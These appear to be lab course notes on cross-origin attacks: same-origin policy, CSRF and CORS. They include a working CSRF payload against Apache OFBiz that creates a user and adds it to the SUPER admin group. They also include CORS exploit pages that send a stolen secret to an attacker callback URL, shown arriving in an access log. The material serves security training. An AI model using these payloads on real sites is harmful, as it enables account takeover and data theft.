

# Module 7: Cross-Origin Attacks

## Same-Origin Policy

### Accessing the CORS Sandbox

_Start the VPN, the VM, and add the IP to your hosts file._

### Introduction to the Same-Origin Policy

An origin is the combination of a protocol, hostname, and port number.&#x20;


SOP blocks JavaScript from accessing the response of a cross-origin request, but the request is still sent.

\
SOP allows images to be loaded cross-origin.


## SameSite Cookies

This attribute instructs the browser to send the cookie on any relevant request, regardless of where or how the request originated.

## Cross-Site Request Forgery (CSRF)

### Detecting and Preventing CSRF

Usually done via a hidden nonce value or "csrf" token.

### Exploiting CSRF

It's easier to exploit CSRF with GET requests due to the multiple ways to instruct a browser to send a GET request.

## Case Study: Apache OFBiz

### Accessing Apache OFBiz

_Start the VPN, the VM, and add its IP to hosts._

### Apache OFBiz - Discovery

<figure><figcaption><p>Apache OFBiz Web Tools Login page</p></figcaption></figure>

_Response headers for login request_


```http
HTTP/1.1 200 
Set-Cookie: JSESSIONID=289957A01AEF4C404F221CA5346C8E1A.jvm1; Path=/webtools; Secure; HttpOnly
Set-Cookie: OFBiz.Visitor=10600; Max-Age=31536000; Expires=Wed, 15-Jun-2022 20:05:33 GMT; Path=/; Secure; HttpOnly
x-frame-options: sameorigin
strict-transport-security: max-age=31536000; includeSubDomains
x-content-type-options: nosniff
X-XSS-Protection: 1; mode=block
Referrer-Policy: no-referrer-when-downgrade
Content-Security-Policy-Report-Only: default-src 'self'
vary: accept-encoding
Content-Type: text/html;charset=UTF-8
Date: Tue, 15 Jun 2021 20:05:33 GMT
Connection: close
Content-Length: 23167
```


<figure><figcaption><p>Web Tools main page</p></figcaption></figure>

<figure><figcaption><p>Web Tools Find User Login</p></figcaption></figure>

<figure><figcaption><p>Web Tools Create User Login</p></figcaption></figure>

_POST request for new user creation_


```http
POST /webtools/control/createUserLogin HTTP/1.1
Host: ofbiz:8443
Connection: close
Content-Length: 178
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: https://ofbiz:8443
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://ofbiz:8443/webtools/control/createnewlogin
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=76A7BCC53C2B9BF49B21F99D2D8CA5D5.jvm1; OFBiz.Visitor=10000

enabled=&partyId=&userLoginId=test&currentPassword=password&currentPasswordVerify=password&passwordHint=&requirePasswordChange=N&externalAuthId=&securityQuestion=&securityAnswer=
```


<figure><figcaption><p>Update User Login Security Settings</p></figcaption></figure>

<figure><figcaption><p>Web Tools: Find Security Group</p></figcaption></figure>

<figure><figcaption><p>The SUPER Role</p></figcaption></figure>

<figure><figcaption><p>Web Tools: Edit Security Group</p></figcaption></figure>

<figure><figcaption><p>Web Tools: Add User Login to Security Group</p></figcaption></figure>

<figure><figcaption><p>User added to SUPER group</p></figcaption></figure>

_POST request to add a user to a security group_


```http
POST /webtools/control/addUserLoginToSecurityGroup HTTP/1.1
Host: ofbiz:8443
Connection: close
Content-Length: 80
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: https://ofbiz:8443
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://ofbiz:8443/webtools/control/EditSecurityGroupUserLogins?groupId=SUPER
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=76A7BCC53C2B9BF49B21F99D2D8CA5D5.jvm1; OFBiz.Visitor=10000

groupId=SUPER&userLoginId=test&fromDate_i18n=&fromDate=&thruDate_i18n=&thruDate=
```


### Apache OFBiz - Exploitation

_CSRF payload outline_


```markup
<html>
<body onload="document.forms['csrf'].submit()">
  <form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf">
  </form>
</body>
</html>
```


_Adding the input fields_


```markup
...
<input type="hidden" name="enabled">
<input type="hidden" name="partyId">
<input type="hidden" name="userLoginId" value="csrftest">
<input type="hidden" name="currentPassword" value="password">
<input type="hidden" name="currentPasswordVerify" value="password">
<input type="hidden" name="passwordHint">
<input type="hidden" name="requirePasswordChange" value="N">
<input type="hidden" name="externalAuthId">
<input type="hidden" name="securityQuestion">
<input type="hidden" name="securityAnswer">
...
```


_Restarting the Apache HTTP Server_

```bash
kali@kali:~$ sudo systemctl restart apache2
```

<figure><figcaption><p>The csrftest user was successfully created</p></figcaption></figure>

<figure><figcaption><p>Burp Suite HTTP history tab with CSRF attack</p></figcaption></figure>

_Creating our next payload file_

```bash
kali@kali:~$ sudo cp /var/www/html/ofbiz.html /var/www/html/ofbiz1.html
```

_New form element for adding our user to the SUPER group_


```markup
...
<form action="https://ofbiz:8443/webtools/control/userLogin_addUserLoginToSecurityGroup" method="post" name="csrf2" target="_blank">
<input type="hidden" name="userLoginId" value="csrftest">
<input type="hidden" name="partyId">
<input type="hidden" name="groupId" value="SUPER">
<input type="hidden" name="fromDate_i18n">
<input type="hidden" name="fromDate">
<input type="hidden" name="thruDate_i18n">
<input type="hidden" name="thruDate">
</form>
```


_New JavaScript function to submit our two forms_

```markup
<html>
<head>
<script>
  function submitForms() {
    document.forms['csrf'].submit();
    document.forms['csrf2'].submit();
    return false;
  }
</script>
</head>
<body onload="submitForms();" >
...
```

<figure><figcaption><p>Our browser state after loading obfiz1.html</p></figcaption></figure>

<figure><figcaption><p>Logged in as csrftest</p></figcaption></figure>

### Revising the CSRF Payload

_Basic HTML and JavaScript structure of ofbiz2.html_


```markup
<html>
<head>
<script>
  var username = "csrftest2";
  var password = "password";
  var host = "https://ofbiz:8443";
  var create_url = "/webtools/control/createUserLogin";
  var admin_url = "/webtools/control/userLogin_addUserLoginToSecurityGroup";
  var create_params = "enabled=&partyId=&userLoginId=" + username + "&currentPassword=" + password + "&currentPasswordVerify=" + password + "&passwordHint=hint&requirePasswordChange=N&externalAuthId=&securityQuestion=&securityAnswer=";
  var admin_params = "userLoginId=" +username + "&partyId=&groupId=SUPER&fromDate_i18n=&fromDate=&thruDate_i18n=&thruDate=";
</script>
</head>
<body></body>
</html>
```


_JavaScript functions to create a new user and add that user to SUPER group_


```javascript
...
function send_create() { 
  console.log("Creating user..."); 
  fetch(host+create_url, {
    method: 'POST',
    mode: 'no-cors',
    credentials: 'include',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body : create_params }
  ).then(function(response) {
    send_admin();
  }); 
}

function send_admin() { 
  console.log("Adding admin role..."); 
  fetch(host+admin_url, {
    method: 'POST',
    mode: 'no-cors',
    credentials: 'include',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded' 
    },
    body : admin_params }
  ).then(
    console.log("Should be done...") 
  );
}

send_create();
</script>
...
```


Using the fetch API to send our POST request in the "no-cors" mode restricts us to using "application/x-www-form-urlencoded" as the content type. Setting credentials to _include_ instructs the browser to send cookies on the request.&#x20;

Our CSRF fails due to the browser defaulting to a Lax SameSite value. If set to None then we would have been successful.

## Cross-Origin Resource Sharing (CORS)

### Anatomy of the CORS Request

Before sending an actual cross-origin request, the browser makes a _preflight_ request to the intended destination.

_Sample preflight request_

```http
OPTIONS /foo HTTP/1.1
Host: megacorpone.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip,deflate
Connection: keep-alive
Origin: https://offensive-security.com
Access-Control-Request-Method: POST
Access-Control-Request-Headers: X-UserId
```

### Response Headers

Servers can set several headers to enable CORS.

_Sample preflight response_

```http
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Wed, 23 Jun 2021 17:38:47 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 0
Connection: close
Access-Control-Allow-Methods: GET, POST, OPTIONS
Access-Control-Allow-Origin: https://offensive-security.com
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: X-UserId
```

## Exploiting Weak CORS Policies

### Weak CORS Policies - Discovery

<figure><figcaption><p>Using Burp Suite to check cookie attributes</p></figcaption></figure>

_Response headers for /code_

```http
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Thu, 15 Jul 2021 17:13:23 GMT
Content-Type: application/json
Content-Length: 62
Connection: close
Access-Control-Allow-Methods: GET
Access-Control-Allow-Origin: *

{"code":"6d84973e-5995-4557-95ed-a179beb9b5a4","status":"ok"}
```

<figure><figcaption><p>Sending the request for /code to Repeater</p></figcaption></figure>

<figure><figcaption><p>Baseline request and response</p></figcaption></figure>

### Trusting Any Origin

_Requesting the secret code without a session cookie_

```http
HTTP/1.1 401 UNAUTHORIZED
Server: nginx/1.14.0 (Ubuntu)
Date: Thu, 15 Jul 2021 17:17:00 GMT
Content-Type: application/json
Content-Length: 62
Connection: close
Access-Control-Allow-Methods: GET
Access-Control-Allow-Origin: *

{"code":"You must be logged in to do that.","status":"error"}
```

<figure><figcaption><p>Request containing an Origin header and the subsequent response</p></figcaption></figure>

_Basic CORS exploit page_


```markup
<html>
<head>
<script>
var url = "https://cors-sandbox/code";

function get_code() {
  fetch(url, {
    method: 'GET',
    mode: 'cors',
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => {
    console.log(data);
  });
}

get_code();
</script>
</head>
<body></body>
</html>
```



Some browsers restrict cookies on cross-origin requests based on privacy settings. If the following examples do not work, you may need to modify settings in your browser to relax these controls for the **cors1.html** and **cors2.html** pages.

In Chrome and Chromium, you can enable _Third-party cookies_ after loading the page by clicking on _Not secure_, then _Cookies and site data_, and then toggling "Third-party cookies".

In Firefox, you may need to disable Enhanced Tracking Protection for the page by clicking on the shield icon next to the URL and then toggling "Enhanced Tracking Protection is ON for this site".


<figure><figcaption><p>Browser console output includes the secret code</p></figcaption></figure>

_Updated get\_code() function_


```javascript
...
function get_code() {
  fetch(url, {
    method: 'GET',
    mode: 'cors',
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => {
    fetch('http://your ip address/callback?' +  encodeURIComponent(JSON.stringify(data)), {
      mode: 'no-cors'
    });
  });
}
...
```


_Contents of access.log including the secret code_


```bash
kali@kali:~$ sudo tail /var/log/apache2/access.log
...
127.0.0.1 - - [23/Jun/2021:18:07:26 -0400] "GET /cors2.html HTTP/1.1" 200 593 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36"
127.0.0.1 - - [23/Jun/2021:18:07:26 -0400] "GET /favicon.ico HTTP/1.1" 404 451 "http://localhost/cors2.html" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36"
192.168.48.3 - - [23/Jun/2021:18:07:26 -0400] "GET /callback?%7B%22code%22%3A%226d84973e-5995-4557-95ed-a179beb9b5a4%22%2C%22status%22%3A%22ok%22%7D HTTP/1.1" 404 454 "http://localhost/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36"
```


### Improper Domain Allowlist

_Response to OPTIONS request to /allowlist_


```http
kali@kali:~$ curl -X "OPTIONS" -i -k https://cors-sandbox/allowlist 
HTTP/2 200 
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: https://offensive-security.com
content-type: text/html; charset=utf-8
date: Thu, 15 Jul 2021 17:51:21 GMT
server: waitress
content-length: 0
```


_The Access-Control-Allow-Origin value has changed_


```http
kali@kali:~$ curl -X "OPTIONS" -i -H "Origin: http://www.offensive-security.com" -k https://cors-sandbox/allowlist
HTTP/2 200 
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: http://www.offensive-security.com
content-type: text/html; charset=utf-8
date: Thu, 15 Jul 2021 17:52:38 GMT
server: waitress
content-length: 0
```


_The Access-Control-Allow-Origin value has the original value_


```http
kali@kali:~$ curl -X "OPTIONS" -i -H "Origin: http://www.offensive-security.net" -k https://cors-sandbox/allowlist
HTTP/2 200 
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: https://offensive-security.com
content-type: text/html; charset=utf-8
date: Thu, 15 Jul 2021 17:53:48 GMT
server: waitress
content-length: 0
```


_The Access-Control-Allow-Origin value reflects the value we submitted_


```http
kali@kali:~$ curl -X "OPTIONS" -i -H "Origin: http://fakeoffensive-security.com" -k https://cors-sandbox/allowlist
HTTP/2 200 
access-control-allow-credentials: true
access-control-allow-methods: GET
access-control-allow-origin: http://fakeoffensive-security.com
content-type: text/html; charset=utf-8
date: Thu, 15 Jul 2021 17:54:33 GMT
server: waitress
content-length: 0
```

